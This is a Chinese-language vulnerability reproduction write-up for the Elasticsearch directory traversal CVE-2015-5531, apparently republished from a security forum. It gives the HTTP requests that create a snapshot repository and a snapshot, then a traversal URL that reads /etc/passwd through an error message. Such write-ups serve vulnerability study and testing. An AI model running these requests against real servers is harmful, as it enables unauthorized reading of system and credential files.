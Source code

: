 # （CVE-2015-5531）ElasticSearch 目录穿越漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2906](https://www.zhihuifly.com/t/topic/2906)

# （CVE-2015-5531）ElasticSearch 目录穿越漏洞

## 一、漏洞简介

elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

## 二、漏洞影响

ElasticSearch 1.6.1以下

## 三、复现过程

### 1\. 新建一个仓库

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108 `{

“type”: “fs”,

“settings”: {

“location”: “/usr/share/elasticsearch/repo/test”

}

}` 
```

![image](img/95df34339291e6f25d03ebfe3efc7869.png)

### 2\. 创建一个快照

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108 `{

“type”: “fs”,

“settings”: {

“location”: “/usr/share/elasticsearch/repo/test/snapshot-backdata”

}

}` 
```

![image](img/b80cc7916c19b604274fde4677f51e3b.png)

### 3\. 目录穿越读取任意文件

访问 `http://www.0-sec.org:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![image](img/898a2cefd609dd5be7b6f1145a22da58.png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![image](img/0a757ed1042357e88733768bc4b2cd22.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/